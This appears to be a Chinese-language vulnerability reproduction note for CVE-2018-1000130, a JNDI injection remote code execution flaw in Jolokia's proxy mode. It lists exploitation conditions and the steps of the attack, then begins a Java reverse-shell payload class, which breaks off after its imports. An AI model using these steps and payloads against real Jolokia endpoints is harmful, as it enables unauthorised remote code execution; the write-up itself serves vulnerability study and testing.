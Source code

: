 ```yaml
---
title: "（CVE-2018-1000130）Jolokia 远程代码执行漏洞"
id: zhfly2993
---
```


# （CVE-2018-1000130）Jolokia 远程代码执行漏洞

## 一、漏洞简介

Jolokia服务的代理模式默认情况下在1.5.0版之前容易受到**JNDI注入**的攻击。当以代理模式部署Jolokia代理时，有权访问Jolokia Web端点的外部攻击者可以通过JNDI注入攻击远程执行任意代码。由于Jolokia库使用用户提供的输入启动LDAP / RMI连接，因此有可能造成这种攻击。

#### 利用条件：

*   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
*   目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
*   目标可以请求攻击者的服务器（请求可出外网）
*   实际测试 RMI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121

## 二、漏洞影响

Jolokia < 1.50

## 三、复现过程

#### 漏洞分析

1.  利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2.  设置 connectionURL 地址为 RMI Service URL
3.  设置 contextFactory 为 RegistryContextFactory
4.  停止 Realm
5.  启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

需要修改脚本里对应的反弹shell的ip和端口

```
/**
 *  javac -source 1.5 -target 1.5 JNDIObject.java
 *
 *  Build By LandGrey
 * */

import java.io.File;

import java.io.InputStream;

import java.io.OutputStream;

import java.net.Socket; `public class JNDIObject {

static {

try{

```